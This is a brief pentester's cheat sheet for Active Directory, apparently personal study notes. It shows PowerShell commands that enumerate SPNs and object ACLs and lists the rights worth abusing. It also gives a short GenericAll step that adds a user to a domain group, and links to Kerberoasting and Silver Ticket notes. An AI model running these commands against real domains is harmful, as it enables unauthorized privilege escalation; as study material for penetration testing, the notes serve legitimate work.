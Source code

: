 ### SPNs
**枚举域中的SPN，获取域中的服务端口**。同样可以达成nmap端口扫描的目的，甚至更为准确。
```powershell
setspn -L <service_name>

#PowerView
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```
### ACEs --> ACL 
 SecurityIdentifier 权限主体 -->   ActiveDirectoryRights 权限等级
```powershell
Get-ObjectAcl -Identity stephanie
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

Convert-SidToName <SID>
"<SID1>","<SID2>".. | Convert-SidToName
```
#### 重点ACEs
```powershell
GenericAll: Full permissions on object
GenericWrite: Edit certain attributes on the object
WriteOwner: Change ownership of the object
WriteDACL: Edit ACE's applied to object
AllExtendedRights: Change password, reset password, etc.
ForceChangePassword: Password change for object
Self (Self-Membership): Add ourselves to for example a group
```
# Exploit
## ACL manipulate With GenericALL
```powershell
net group "<GenericALL Group>" <user> /add /domain
runas /user:<GenericALL user> powershell
```
## Kerberoasting
[[My Cheat Sheet/4. POST/Windows & Domain PrivEsc/0. Quick_Note&Domain/Whole Domain Stuff/A. Authentication Attack/Cracker#Kerberoasting|Kerberoasting]]
## Silver Ticket
[[Silver Ticket#Silver Tickets|Silver Tickets]]